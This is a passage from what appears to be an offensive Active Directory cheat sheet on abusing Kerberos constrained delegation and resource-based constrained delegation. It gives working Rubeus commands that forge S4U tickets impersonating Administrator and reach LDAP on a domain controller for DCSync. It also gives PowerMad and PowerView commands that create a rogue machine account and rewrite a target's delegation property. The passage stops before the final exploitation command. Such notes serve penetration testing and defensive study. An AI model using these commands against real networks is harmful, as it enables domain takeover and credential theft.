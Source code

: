 **NOTE:** These properties do NOT have to exist together! If `s4u2proxy` is allowed without `s4u2self`, user interaction is required to get a valid TGS to the frontend service from a user, similar to unconstrained delegation.

#### Exploitation

In this case, we use Rubeus to automatically request a TGT and then a TGS with the `ldap` SPN to allow us to DCSync using a machine account.

```
# Get a TGT using the compromised service account with delegation set (if needed)
.\Rubeus.exe asktgt /user:sa_with_delegation /domain:domain.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

# Use s4u2self and s4u2proxy to impersonate the DA user to the allowed SPN
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /ptt

# Same as above, but access the LDAP service on the DC (for dcsync) using pw hash
.\Rubeus.exe s4u /user:sa_with_delegation /impersonateuser:Administrator /msdsspn:time/dc /altservice:ldap /ptt /rc4:2892D26CDF84D7A70E2EB3B9F05C425E 
```

### Resource-based constrained delegation

Resource-Based Constrained Delegation (RBCD) configures the _backend server_ (e.g. MSSQL) to allow _only selected frontend services_ (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.

DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.

In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the _frontend service_) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the _backend service_. This means that the _frontend service_ needs to have an SPN set. Thus, attacks against RBC have to be performed from either a service account with SPN or a machine account.

#### Exploitation

If we compromise a _frontend service_ that appears in the RBCD property of a _backend service_, exploitation is the same as with constrained delegation above. This is however not too common.

A more often-seen attack to RBCD is when we have `GenericWrite`, `GenericAll`, `WriteProperty`, or `WriteDACL` permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation above.

```
# Create a new machine account using PowerMad
New-MachineAccount -MachineAccount InconspicuousMachineAccount -Password $(ConvertTo-SecureString 'Compromised123!' -AsPlainText -Force)

# Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target
$sid = Get-DomainComputer -Identity InconspicuousMachineAccount -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)

# Use PowerView to use our GenericWrite (or similar) priv to apply this SD to the target
Get-DomainComputer -Identity TargetSrv01 | Set-DomainObject -Set @{'msdsallowedtoactonbehalfofotheridentity'=$SDBytes}

# Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target
```